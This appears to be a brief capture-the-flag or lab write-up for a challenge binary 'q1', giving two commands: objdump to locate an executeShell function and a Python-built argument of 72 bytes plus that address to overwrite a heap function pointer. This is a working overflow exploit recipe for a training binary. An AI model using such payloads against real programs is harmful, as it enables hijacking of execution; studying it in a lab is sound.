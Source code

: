 #q1:
1. objdump -t q1 | grep executeShell -> get address of executeShell function
	eg address = 0804852b 
2. ./q1 `python -c 'print "A"*72+"\x2b\x85\x04\x08"'` -> changes the address of "Failed" stored in heap allocated to "f".
